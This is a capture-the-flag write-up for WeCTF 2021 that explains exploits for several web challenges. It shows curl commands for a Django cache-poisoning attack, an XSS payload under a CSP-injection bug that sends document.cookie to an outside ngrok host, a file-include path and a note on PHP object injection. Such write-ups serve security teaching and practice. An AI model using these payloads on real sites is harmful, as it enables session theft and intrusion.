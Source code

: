 # WeCTF 2021

[WeCTF 2021 Github REPO](https://github.com/wectf/2021)

## Cache

Two problem from the implementation. According to the documentation of [Django re_path](https://docs.djangoproject.com/en/3.2/ref/urls/#re-path), the parameter should be a regular expression. Matching with `"flag"` actually means that **path contains "flag" will trigger the handler**, e.g `/sdfafds/flag`, `/flag_custom.css`. Secondly, cache implementation is based on user_provided url **, but cookie content is not a cache key**. This opening a opportunity for cache poisoning attack.

```shell
# Admin view the page
curl -X GET --cookie "token=CroRQgDwMmJdybKa" "http://140.113.194.71:4002/flag_RetrOisHere.css"

# Attacker view the page
curl -X GET "http://140.113.194.71:4002/flag_RetrOisHere.css"
```

## CSP1

The app is vulnerability to csp policy injection. Except `connect-src`, other policies can be modified. Pair with xss, we can achieve cookie exfiltration.

```html
<!-- Payload -->
<img src="http://140.113.42.242; script-src 'unsafe-inline' 9a4c-140-113-229-111.ngrok.io">

<script>
  let sc = document.createElement("script")
  sc.src = "http://9a4c-140-113-229-111.ngrok.io/?coo=" + document.cookie

  document.body.appendChild(sc)
</script>
```

## Include

url: `/?🤯=/flag.txt`

## CSP 2/3

Php Object Injection at `/?method=post`, Report URI Modification, Data Exfiltration

